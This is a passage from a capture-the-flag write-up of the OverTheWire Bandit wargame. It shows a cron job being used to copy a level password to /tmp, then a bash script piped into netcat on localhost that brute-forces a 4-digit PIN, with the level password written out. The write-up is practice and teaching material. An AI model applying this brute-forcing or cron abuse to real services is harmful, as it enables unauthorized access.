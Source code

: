 - **Wait for the Cron Job to Execute**:
    
    - The cron job will eventually run the script, execute it as `bandit24`, and copy the password for `bandit24` to `/tmp/bandit24_password`.
        
- **Retrieve the Password**:
    
    - Once the cron job has run, read the password from `/tmp/bandit24_password`:
```bash
cat /tmp/bandit24_password
```

---
## Level 24

**Level Goal**:
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

For this task I've created a bash script, that will generate every combination from `0000` to `9999`.

```bash
#!/bin/bash


for i in {0000..9999}; do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"

done
```

#### **What the Script Does**

1. **`for i in {0000..9999}`**:
    
    - Loops through all 4-digit combinations from `0000` to `9999`.
        
2. **`echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"`**:
    
    - For each iteration, it prints the password for `bandit24` (`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`) followed by the current 4-digit pincode (`$i`).

Then, since my script do not send any data, we have to submit each combination through `netcat`, we can achieve this piping the script with the `netcat` connection.

```bash
./exploit.sh | nc 127.0.0.1 30002
```

#### **What This Command Does**

1. **`./exploit.sh`**:
    
    - Executes your script, which generates all possible combinations of the password for `bandit24` and a 4-digit pincode.
        